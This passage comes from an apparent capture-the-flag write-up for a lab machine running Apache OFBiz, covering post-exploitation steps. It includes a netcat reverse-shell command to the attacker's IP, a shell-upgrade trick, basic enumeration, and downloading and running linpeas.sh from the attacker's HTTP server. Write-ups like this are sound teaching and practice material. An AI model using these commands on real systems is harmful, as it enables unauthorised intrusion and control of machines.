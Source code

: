 Great! Initial foothold achieved!

I'm not too comforatble with meterpreter yet, so I opened another reverse shell:
```sh
# Local machine
$ nc -nvlp 4455

# Target machine
meterpreter > shell
$ busybox nc 10.10.14.10 4455 -e sh
```

Then I upgraded my shell via:
```sh
$ python -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + Z to put the shell in background
$ stty raw -echo ; fg
```

## Step 2 - User flag
The shell lands in `/opt/ofbiz/`. Simply navigating to `/home` reveals the user.txt.

## Step 3 - Enumerating the machine
```sh
$ sudo -l
[sudo] password for ofbiz: # No idea...

$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"

$ env
# Nothing interesting

$ echo $PATH
/usr/lib/jvm/java-11-openjdk-amd64/bin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin:/usr/lib/jvm/java-11-openjdk-amd64/bin

$ uname -a
Linux bizness 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
```

Nothing too obvious right off the bat. Time to check with linpeas.

```sh
# Local machine
$ cd [<path to linpeas.sh>]
$ python3 -m http.server

# Target machine
$ cd /tmp
$ wget http://[<local machine's IP>]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```
